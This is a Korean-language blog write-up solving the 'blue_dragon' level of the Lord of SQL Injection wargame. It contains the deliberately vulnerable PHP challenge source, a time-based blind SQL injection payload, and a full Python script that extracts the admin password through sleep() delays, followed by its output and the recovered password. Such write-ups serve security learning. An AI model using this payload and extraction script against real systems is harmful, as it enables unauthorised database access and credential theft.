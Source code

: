 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - blue_dragon 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


드디어 용 시리즈의 마지막인 `blue_dragon`이다.  

내가 바보임을 다시 한 번 깨달을 수 있었던 문제였다.  

<!--more-->

코드는 다음과 같다.  

```php
--------------------------------------------------------------------------------------
query : select id from prob_blue_dragon where id='' and pw=''
--------------------------------------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```

단순히 필터링만 보자면 `'(싱글쿼터)`와 여태까지 싱글쿼터가 필터링이었을 때 사용했던 `\`을 사용하지 못하도록 되어 있다.  

그런데 필터링을 걸어 둔 위치가 좀 다르다.  

쿼리를 실행시킨 후에 필터링을 검사하고 이에 대한 결과를 출력한다.  

그래서 `'`를 사용한다면 쿼리의 결과를 `Hello admin`의 형태로는 확인할 수 없겠지만, 어찌됬든 쿼리가 실행은 되므로 `Time Based Blind SQL Injection`을 사용할 수 있다.  

테스트로 `id=a&pw=' or id='admin' and if(length(pw)>0, sleep(3), 0)#`을 입력 해 보았다.  

그랬더니 약 3초 간 지연 후에 내가 입력 한 쿼리와 함께 `No Hack ~_~`을 출력하는 결과 화면을 볼 수 있었다.  

정상적으로 쿼리가 동작하므로 pw의 길이와 값을 알아내기 위해 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests
import time

flag = ""
length = 0

url = "http://los.rubiya.kr/blue_dragon_23f2e3c81dca66e496c7de2d63b82984.php?id=a&pw=' or id='admin' and"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 40):
	try:
		start = time.time()
		query = url + " if(length(pw) = " + str(i) + ", sleep(3), 0)%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue
	if (time.time() - start) > 3:
		length = i
		break	

print "[+] Found length : ", length

print "[+] Find password"
	
for j in range(1, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + " if(substr(pw, " + str(j) + ", 1) = " + hex(i) + ", sleep(3), 0)%23"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if (time.time() - start) > 3:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

내 서버가 너무 느려서 도대체 결과가 안나오길래 쿼리가 잘못된 것인가 고민했었다.  

그런데 학교 다닐 때 쓰던 동아리 서버에서 돌렸더니 너무 잘돌아간다 ㅎㅎ  

서버를 바꾸던가 해야지 원...  

어찌됬건 결과는 다음과 같다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : D
[+] Found 2 : D9
[+] Found 3 : D94
[+] Found 4 : D948
[+] Found 5 : D948B
[+] Found 6 : D948B8
[+] Found 7 : D948B8A
[+] Found 8 : D948B8A0
[+] Found password :  D948B8A0
[+] End
```

역시나 소문자로 입력 해 주면 문제를 풀 수 있다.  

```
?pw=d948b8a0
```

```php
---------------------------------------------------------------------------------------------------
query : select id from prob_blue_dragon where id='' and pw='d948b8a0'
---------------------------------------------------------------------------------------------------

BLUE_DRAGON Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("blue_dragon");
  highlight_file(__FILE__);
?>
```

`BLUE_DRAGON Clear!!`